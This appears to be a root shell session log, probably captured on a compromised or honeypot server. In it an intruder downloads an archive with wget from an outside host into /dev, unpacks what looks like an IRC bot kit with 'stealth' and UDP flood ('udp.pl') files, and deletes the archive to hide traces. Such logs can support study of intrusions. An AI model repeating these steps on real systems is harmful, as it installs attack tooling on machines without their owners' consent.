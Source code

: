 
    server:~# rm -rf lib.tgz

    server:~# cd lib

    server:/root/lib# ./y2kupdate
    unable to open display ":0"

    server:/root/lib# ./init
    unable to open display ":0"

    server:/root/lib# cd

    server:~# ls
    lib

    server:~# cd /dev

    server:/dev# wget freewebtown.com/pacalici/bf.tgz
    --2011-02-09 00:32:05--  http://freewebtown.com/pacalici/bf.tgz
    Connecting to freewebtown.com:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 392378 (383K) [application/x-tar]
    Saving to: `bf.tgz

    100%[======================================>] 392,378      9K/s  eta 39s

    2011-02-09 00:32:06 (9 KB/s) - `bf.tgz' saved [392378/392378]

    server:/dev# tar zxvf bf.tgz
    mc-root
    mc-root/go
    mc-root/cyc.set
    mc-root/cyc.help
    mc-root/cyc.levels
    mc-root/bash
    mc-root/udp.pl
    mc-root/stealth
    mc-root/randfiles
    mc-root/randfiles/randkicks.e
    mc-root/randfiles/randaway.e
    mc-root/randfiles/randsignoff.e
    mc-root/randfiles/randinsult.e
    mc-root/randfiles/randversions.e
    mc-root/randfiles/randsay.e
    mc-root/randfiles/randpickup.e
    mc-root/randfiles/randnicks.e
    mc-root/cyc.acc
    mc-root/pico.tgz
    mc-root/pico
    mc-root/cyc.pid

    server:/dev# rm -rf bf.tgz

    server:/dev#

    server:/dev# cd mc-root
